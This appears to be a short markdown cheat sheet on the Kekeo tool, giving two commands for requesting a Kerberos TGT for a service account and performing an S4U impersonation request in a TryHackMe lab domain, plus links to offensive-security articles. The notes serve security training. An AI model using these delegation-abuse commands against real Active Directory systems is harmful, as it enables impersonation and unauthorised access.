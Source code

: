 # Kekeo

## CMD Line Examples
```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:<password>
```

```
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRY
HACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
```


## References

Tool
- https://github.com/gentilkiwi/kekeo
- https://phonexicum.github.io/infosec/windows.html

Usage
- https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/#:~:text=Kekeo%20offers%20the%20tsssp::,used%20at%20two%20different%20moments:
- https://posts.specterops.io/from-kekeo-to-rubeus-86d2ec501c14
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-delegated-default-kerberos-and-ntlm-credentials-without-touching-lsass
- https://redfoxsec.com/blog/attacking-kerberos-delegation/#:~:text=We%20will%20use%20Kekeo%20to,to%20dump%20the%20TGS%20ticket.


